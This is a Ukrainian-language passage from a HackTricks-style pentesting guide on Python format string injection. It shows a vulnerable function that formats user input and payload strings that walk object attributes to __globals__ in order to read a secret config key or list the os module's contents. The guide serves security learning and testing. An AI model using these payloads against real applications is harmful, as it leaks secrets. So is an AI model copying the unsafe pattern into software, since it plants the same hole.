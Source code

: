
{{#ref}}
https://github.com/carlospolop/hacktricks/blob/master/generic-methodologies-and-resources/python/bypass-python-sandboxes/broken-reference/README.md
{{#endref}}

## Python Format String

Якщо ви **відправите** **рядок** у python, який буде **відформатований**, ви можете використати `{}` для доступу до **внутрішньої інформації python.** Ви можете використовувати попередні приклади, щоб отримати доступ до globals або builtins, наприклад.
```python
# Example from https://www.geeksforgeeks.org/vulnerability-in-str-format-in-python/
CONFIG = {
"KEY": "ASXFYFGK78989"
}

class PeopleInfo:
def __init__(self, fname, lname):
self.fname = fname
self.lname = lname

def get_name_for_avatar(avatar_str, people_obj):
return avatar_str.format(people_obj = people_obj)

people = PeopleInfo('GEEKS', 'FORGEEKS')

st = "{people_obj.__init__.__globals__[CONFIG][KEY]}"
get_name_for_avatar(st, people_obj = people)
```
Зверніть увагу, що ви можете **доступатися до атрибутів** звичайним способом через **крапку**, наприклад `people_obj.__init__` і до **елемента dict** через **квадратні дужки** без лапок `__globals__[CONFIG]`

Також зауважте, що ви можете використовувати `.__dict__` для перерахування елементів об'єкта `get_name_for_avatar("{people_obj.__init__.__globals__[os].__dict__}", people_obj = people)`

Інші цікаві властивості форматних рядків — це можливість **виконувати** **функції** **`str`**, **`repr`** і **`ascii`** у вказаному об'єкті, додавши **`!s`**, **`!r`**, **`!a`** відповідно:
```python
st = "{people_obj.__init__.__globals__[CONFIG][KEY]!a}"
get_name_for_avatar(st, people_obj = people)
```
Крім того, можна **написати нові форматери** в класах:
```python
class HAL9000(object):
def __format__(self, format):
if (format == 'open-the-pod-bay-doors'):
return "I'm afraid I can't do that."
return 'HAL 9000'

'{:open-the-pod-bay-doors}'.format(HAL9000())
#I'm afraid I can't do that.
```
**Більше прикладів** щодо **format** **string** можна знайти на [**https://pyformat.info/**](https://pyformat.info)
